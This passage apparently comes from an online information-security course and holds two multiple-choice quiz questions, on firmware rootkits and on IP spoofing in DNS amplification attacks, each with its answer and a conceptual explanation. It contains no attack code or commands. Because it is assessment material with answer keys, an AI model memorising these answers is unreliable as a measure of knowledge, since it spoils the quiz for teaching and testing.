**Q4.** A rootkit that infects the BIOS/UEFI is classified as:

A) Bootkit  
B) Firmware rootkit  
C) Kernel rootkit  
D) User-mode rootkit  

<details>
<summary>Show Answer</summary>

**Answer: B) Firmware rootkit**

**Explanation:** A firmware rootkit infects the system firmware (BIOS/UEFI) and persists even after OS reinstallation or hard disk replacement. Bootkits infect the MBR/VBR (boot sector). Kernel rootkits hook OS kernel functions. Firmware rootkits are extremely difficult to detect and remove because they operate below the OS level.
</details>

---

**Q5.** In a DNS amplification DDoS attack, the attacker spoofs which IP address in the initial query?

A) Their own IP address  
B) The DNS server's IP address  
C) The victim's IP address  
D) A random non-existent IP address  

<details>
<summary>Show Answer</summary>

**Answer: C) The victim's IP address**

**Explanation:** In DNS amplification attacks, the attacker sends a small DNS query with the source IP spoofed to be the victim's IP address. The DNS server sends the (much larger) response to the victim's IP. This way, the victim receives amplified traffic without participating in the attack. The attacker's identity is hidden because the response goes to the victim, not the attacker.
</details>

---

> **Next Chapter:** [Chapter 4 — Digital Signatures & PKI](/courses/information-security/04-digital-signatures-pki/)
